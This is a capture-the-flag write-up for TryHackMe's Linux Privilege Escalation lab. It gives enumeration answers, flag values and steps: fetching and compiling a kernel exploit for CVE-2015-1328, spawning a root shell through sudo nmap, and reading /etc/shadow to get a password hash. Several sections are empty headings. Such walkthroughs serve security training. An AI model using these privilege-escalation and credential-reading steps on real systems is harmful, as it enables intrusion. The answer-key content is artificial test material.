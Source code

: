 ![Linux Privilege Escalation Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linprivesc/Linux_Privilege_Escalation_Cover.png" alt="Linux Privilege Escalation Logo">
</p>

# Linux Privilege Escalation

This guide contains the answer and steps necessary to get to them for the [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc) room.

## Table of contents

- [Enumeration](#enumeration)
- [Automated Enumeration Tools](#automated-enumeration-tools)
- [Privilege Escalation: Kernel Exploits](#privilege-escalation-kernel-exploits)
- [Privilege Escalation: Sudo](#privilege-escalation-sudo)
- [Privilege Escalation: SUID](#privilege-escalation-suid)
- [Privilege Escalation: Capabilities](#privilege-escalation-capabilities)
- [Privilege Escalation: Cron Jobs](#privilege-escalation-cron-jobs)
- [Privilege Escalation: PATH](#privilege-escalation-path)
- [Privilege Escalation: NFS](#privilege-escalation-nfs)
- [Capstone Challenge](#capstone-challenge)

### Enumeration

1. What is the hostname of the target system?

   ><details><summary>Click for answer</summary>wade7363</details>
   
2. What is the Linux kernel version of the target system?

   ><details><summary>Click for answer</summary>3.13.0-24-generic</details>

3. What Linux is this?

   ><details><summary>Click for answer</summary>Ubuntu 14.04 LTS</details>

4. What version of the Python language is installed on the system?

   ><details><summary>Click for answer</summary>2.7.6</details>

5. What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

   ><details><summary>Click for answer</summary>CVE-2015-1328</details>

### Automated Enumeration Tools

### Privilege Escalation: Kernel Exploits

1. Find and use the appropriate kernel exploit to gain root privileges on the target system.

   We first need to find the kernel version on this system with `uname -a`.

   KERNEL VERSION

   Then we can look for an exploit for this kernel through Exploit Database for example.

   KERNEL EXPLOIT

   Now we can either download the file from here or locate it on our machine through the file name. 

3. What is the content of the flag1.txt file?

   I will first  rename the file to exploit.c.

   ```cmd
   mv 37292.c exploit.c
   ```

   Then we set up a web server on our machine to deliver the file.

   ```cmd
   python3 -m http.server 8080
   ```

   In the temp folder we can download the exploit.

   ```cmd
   wget 10.18.78.136:8080/exploit.c
   ```

   KERNEL PREPARE
   
   Now we should compile the file.

   ```cmd
   gcc exploit.c -o exploit
   ```

   KERNEL SUCCESS

   Lastly, we need to search for the flag and read it!
   
   ```cmd
   find / -name flag1.txt 2>/dev/null

   cat /home/matt/flag1.txt
   ```

   KERNEL FLAG
   
   ><details><summary>Click for answer</summary>THM-28392872729920</details>
   
### Privilege Escalation: Sudo

1. How many programs can the user "karen" run on the target system with sudo rights?

   We can find that out with: `sudo -l`.

   SUDO PERMISSIONS

   ><details><summary>Click for answer</summary>3</details>

3. What is the content of the flag2.txt file?

   We first locate the flag with:

   ```cmd
   find / -name flag2.txt 2>/dev/null
   ```

   SUDO LOCATION

   To read the flag we can use either `less` or `nano`.

   ```cmd
   sudo less /home/ubuntu/flag2.txt

   sudo nano /home/ubuntu/flag2.txt
   ```

   SUDO FLAG

   P.s. It turned out permission weren't even needed to read the flag..

   ><details><summary>Click for answer</summary>THM-402028394</details>

5. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

   This can be found on the GTFOBins website whilst searching for nmap.

   ><details><summary>Click for answer</summary>sudo nmap --interactive</details>

6. What is the hash of frank's password?

   To do this we exploit the nmap sudo permissions to read the shadow file.

   ```cmd
   sudo nano /etc/shadow
   ```

   SUDO HASHES

   ><details><summary>Click for answer</summary>$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1</details>
   

### Privilege Escalation: SUID
### Privilege Escalation: Capabilities
### Privilege Escalation: Cron Jobs
### Privilege Escalation: PATH
### Privilege Escalation: NFS
### Capstone Challenge



1. 

   

   ><details><summary>Click for answer</summary></details>
